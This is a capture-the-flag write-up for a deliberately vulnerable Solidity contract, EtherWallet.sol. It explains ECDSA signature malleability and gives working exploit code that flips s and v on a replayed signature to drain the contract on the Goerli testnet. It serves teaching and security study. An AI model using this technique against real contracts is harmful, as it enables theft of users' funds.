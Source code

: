 # Solidity challenge EtherWallet.sol

## The objective

The task is simple: Steal all ether from the contract.

## Overview

`EtherWallet.sol` is a small wallet contract, anyone can deposit ether and anyone with a valid signature can withdraw. There are only two state variables and two functions, `withdraw(bytes memory signature)` and `transferOwnership(address newOwner)`. `transferOwnership` is copied from OpenZeppelins Ownable contract.

Function `withdraw` expects a signature and checks if its signed by the owner of the contract:

```solidity
function withdraw(bytes memory signature) external {
  require(!usedSignatures[signature], "Signature already used!");
  require(
    ECDSA.recover(keccak256("\x19Ethereum Signed Message:\n32"), signature) ==
      owner,
    "No permission!"
  );
  usedSignatures[signature] = true;

  uint256 balance = address(this).balance;
  payable(msg.sender).transfer(balance);

  emit Withdraw(msg.sender, balance);
}

```

It stores all used signatures in a mapping, preventing signature replay attacks:

```solidity
mapping(bytes => bool) public usedSignatures;
```

## Vulnerability

The code of `EtherWallet.sol` itself is fine, there are no hidden vulnerabilites, so we have to dig deeper. `EtherWallet.sol` uses library `ECDSA` for its signature verificiation, specifically function `recover`:

```solidity
function recover(
  bytes32 hash,
  uint8 v,
  bytes32 r,
  bytes32 s
) internal pure returns (address) {
  // If the signature is valid, return the signer address
  address signer = ecrecover(hash, v, r, s);
  require(signer != address(0), "ECDSA: invalid signature");

  return signer;
}

```

To hack this contract, one has to understand how ECDSA signatures work: Ethereum signatures consists of three integers: `v`, `r` and `s`.

ECDSA uses elliptic curves, which are **symmetric** over the x-axis -- `r` is related to the x coordinate of the elliptic curve, while `s` is related to
the y coordinate.

==> That means if `(r, s)` is a valid signature, `(r, n - s)` is valid too:

```
|| 0 1 2 s0 4 | 5 s1 7 8 n ||  <== s0=3 and s1=6 are both valid
```

We use `v` to find out which point to use, in Ethereum its either `0x1b` (27) for `s < n/2`, or `0x1c` (28) for `s > n/2`. For the secp256k1 curve used in Ethereum (and Bitcoin) `n` is `0xfffffffffffffffffffffffffffffffebaaedce6af48a03bbfd25e8cd0364141`.

Battle tested contracts, like OpenZeppelin's ECDSA library, enforce that `s` is in the lower half, preventing the Signature malleability exploit. However, the built-in Ethereum function `ecrecover(hash, v, r, s)` does not. So, if theres an existing tx on the blockchain with values `v`, `r` and `s` we can simply compute the other valid `s` and adjust `v` accordingly, e.g. if `s < n/2`, compute `s_new = n - s` and change `v` from 27 to 28.

The `ECDSA` library used in this contract is similiar to OpenZeppelins library, but the important part, where it is enforced that `s` must be in the lower half, is removed.

## Exploit

Contract `EtherWallet` was deployed to the Goerli test network, see [Etherscan](https://goerli.etherscan.io/address/0x4b90946ab87bf6e1ca1f26b2af2897445f48f877).

After deployment, `withdraw` was called with signature `0x53e2bbed453425461021f7fa980d928ed1cb0047ad0b0b99551706e426313f293ba5b06947c91fc3738a7e63159b43148ecc8f8070b37869b95e96261fc9657d1c`.

To exploit the vulnerability, we first have to extract values `v`, `r` and `s` from the signature:

```solidity
(r, s, v) = _getSignature(
    hex"53e2bbed453425461021f7fa980d928ed1cb0047ad0b0b99551706e426313f293ba5b06947c91fc3738a7e63159b43148ecc8f8070b37869b95e96261fc9657d1c"
);

function _getSignature(bytes memory signature)
    internal
    pure
    returns (
        bytes32,
        bytes32,
        uint8
    )
{
    bytes32 r;
    bytes32 s;
    uint8 v;
    // ecrecover takes the signature parameters, and the only way to get them
    // currently is to use assembly.
    /// @solidity memory-safe-assembly
    assembly {
        r := mload(add(signature, 0x20))
        s := mload(add(signature, 0x40))
        v := byte(0, mload(add(signature, 0x60)))
    }
    return (r, s, v);
}
```

Then do the necessary calculations:

```solidity
if (v == 27) {
    bytes32 n = 0xfffffffffffffffffffffffffffffffebaaedce6af48a03bbfd25e8cd0364141;
    sNew = bytes32(uint256(n) - uint256(s));

    // set v to 28 since we now use s in the upper half
    vNew = 28;
} else {
    bytes32 n = 0xfffffffffffffffffffffffffffffffebaaedce6af48a03bbfd25e8cd0364141;
    sNew = bytes32(uint256(n) - uint256(s));

    // set v to 27 since we now use s in the lower half
    vNew = 27;
}
```

Equipped with our new signature, we just have to call `withdraw` again:

```solidity
bytes memory newSignature = abi.encodePacked(r, sNew, vNew);
(bool success, bytes memory ret) = address(etherwallet).call(
    abi.encodeWithSignature("withdraw(bytes)", newSignature)
);
```

See [exploitEtherWallet.sol](../script/exploits/exploitEtherWallet.sol) for full code.

## Further information

- [VNFT.t.sol](../test/EtherWallet.t.sol) test script setting up and exploiting the contract
- [More info](http://coders-errand.com/malleability-ecdsa-signatures/) about signature malleability
